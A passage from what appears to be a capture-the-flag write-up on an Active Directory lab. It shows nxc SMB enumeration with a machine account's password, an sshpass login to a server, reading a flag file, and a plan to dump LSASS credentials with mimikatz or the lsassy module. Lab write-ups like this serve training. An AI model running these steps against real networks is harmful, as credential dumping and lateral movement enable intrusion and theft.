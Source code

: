 ## Local Administrator

Now that we are part of the `sysadmins` group, we can enumerate for local administrator access on machines in the `backward.rv` domain. We can do this with `nxc`:

```
~$ nxc smb srv01.backward.rv -u 'gatari$' -p 'P@ssw0rd'                                                                                                  
SMB         10.5.10.13      445    SRV01            [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB         10.5.10.13      445    SRV01            [+] backward.rv\gatari$:P@ssw0rd (Pwn3d!)
```

The presence of the `(Pwn3d!)` message indicates that `gatari$` has local administrator access on `srv01.backward.rv`. This is likely because the `Sysadmins` group is a member of the `Administrators` group on `srv01.backward.rv`. We can `SSH` into `srv01.backward.rv` as `gatari$`.

```
~$ sshpass -p 'P@ssw0rd' ssh 'gatari$'@srv01.backward.rv
PS C:\Users\gatari$> whoami
backward\gatari$
```


And grab `flag7.txt`:

```
PS C:\Users\gatari$> cat C:\Users\Administrator\Desktop\flag7.txt
RV{f0r3I6n_GRoUP_mEMBeRSH1p_!$_pR3t7Y_4nNoyin9_549d3e2a7fd475283f4ce5f93f489a76}
```

# Flag 8: Backward

![](./assets/img/rv-sept/8.png)

After compromising `srv01.backward.rv`, we can do the same credential dumping technique as shown in [Flag 6: Antennae](#flag-6-antennae) to dump the `LSASS` process.

## Dumping LSASS, again

Previously, we used [mimikatz.exe](https://github.com/gentilkiwi/mimikatz), but we can also use the [lsassy](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-lsass) module from `nxc` to do the same. We'll find the `NTLM` hash of `iqbal.hassan`.
